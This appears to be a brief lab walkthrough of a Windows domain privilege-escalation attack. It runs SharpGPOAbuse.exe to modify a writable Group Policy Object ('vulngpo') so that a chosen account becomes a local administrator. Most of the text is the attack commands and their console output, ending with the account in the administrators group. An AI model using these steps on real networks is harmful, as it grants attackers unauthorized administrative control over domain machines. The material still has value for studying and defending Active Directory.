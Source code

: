 https://github.com/FSecureLABS/SharpGPOAbuse

https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master

users has gpo write permissions


we will use "SharpGPOAbuse.exe "  and edit gpo to add a user to local admin group

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> net localgroup administrators
	Alias name     administrators
	Comment        Administrators have complete and unrestricted access to the computer/domain

	Members

	-------------------------------------------------------------------------------
	adm1n
	Administrator
	nightmare
	VALHALLA\Domain Admins
	win10
	The command completed successfully.

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount mrblack --GPOName "vulngpo"
	[+] Domain = valhalla.local
	[+] Domain Controller = odin.valhalla.local
	[+] Distinguished Name = CN=Policies,CN=System,DC=valhalla,DC=local
	[+] SID Value of mrblack = S-1-5-21-3410397846-649609989-2919355437-2121
	[+] GUID of "vulngpo" is: {15DD3A52-32EB-4A98-ACAF-476C235E7968}
	[+] Creating file \\valhalla.local\SysVol\valhalla.local\Policies\{15DD3A52-32EB-4A98-ACAF-476C235E7968}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
	[+] versionNumber attribute changed successfully
	[+] The version number in GPT.ini was increased successfully.
	[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
	[+] Done!
	PS C:\Users\testuser\Desktop\PowerSploit\Recon> gpupdate /force
	Updating policy...

	Computer Policy update has completed successfully.
	User Policy update has completed successfully.

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> net localgroup administrators
	Alias name     administrators
	Comment        Administrators have complete and unrestricted access to the computer/domain

	Members

	-------------------------------------------------------------------------------
	Administrator
	VALHALLA\mrblack
	The command completed successfully.

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> net user

	User accounts for \\PC-WIN10

	-------------------------------------------------------------------------------
	adm1n                    Administrator            DefaultAccount
	Guest                    nightmare                WDAGUtilityAccount
	win10
	The command completed successfully.

	PS C:\Users\testuser\Desktop\PowerSploit\Recon>